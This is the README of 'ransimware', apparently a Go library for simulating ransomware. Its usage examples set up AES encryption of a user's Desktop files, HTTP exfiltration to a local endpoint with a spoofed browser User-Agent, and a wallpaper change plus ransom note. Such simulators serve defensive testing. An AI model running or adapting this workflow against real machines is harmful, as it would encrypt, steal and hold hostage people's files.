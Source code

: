 # Ransimware

<a href="https://www.buymeacoffee.com/mjwhitta">🍪 Buy me a cookie</a>

[![Go Report Card](https://goreportcard.com/badge/gitlab.com/mjwhitta/ransimware)](https://goreportcard.com/report/gitlab.com/mjwhitta/ransimware)

## What is this?

This Go module allows you to simulate ransomware.

## How to install

Open a terminal and run the following:

```
$ go get --ldflags="-s -w" --trimpath -u \
    gitlab.com/mjwhitta/ransimware
```

## Usage

Minimal example:

```
package main

import (
    "os"
    "path/filepath"

    rw "gitlab.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Since no encrypt function is defined, the default behavior is
    // to do nothing

    // Since no exfil function is defined, the default behavior is to
    // do nothing

    // Since no notify function is defined, the default behavior is to
    // do nothing

    // Target the user's Desktop folder
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

More complex example:

```
package main

import (
    "os"
    "path/filepath"
    "strings"

    rw "gitlab.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Set encryption method to AES using provided helper function
    sim.Encrypt = rw.AESEncrypt("password")

    // Set exfil method to be HTTP using provided helper function
    sim.Exfil, e = rw.HTTPExfil(
        "http://localhost:8080",
        map[string]string{
            "User-Agent": strings.Join(
                []string{
                    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
                    "AppleWebKit/537.36 (KHTML, like Gecko)",
                    "Chrome/84.0.4147.105 Safari/537.36",
                },
                " ",
            ),
        },
    )
    if e != nil {
        panic(e)
    }

    // Notify user by changing wallpaper and leaving a ransom note,
    // using the provided helper functions
    sim.Notify = func() error {
        rw.WallpaperNotify(
            "C:\\Windows\\Temp\\ransom.png",
            rw.DefaultPNG,
        )()

        rw.RansomNote(
            filepath.Join(home, "Desktop", "ransomnote.txt"),
            []string{"This is a ransomware simulation."},
        )()

        return nil
    }

    // Target the user's Desktop folder
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

## Links

- [Source](https://gitlab.com/mjwhitta/ransimware)

## TODO

- Provide more helper functions
    - FTP exfil
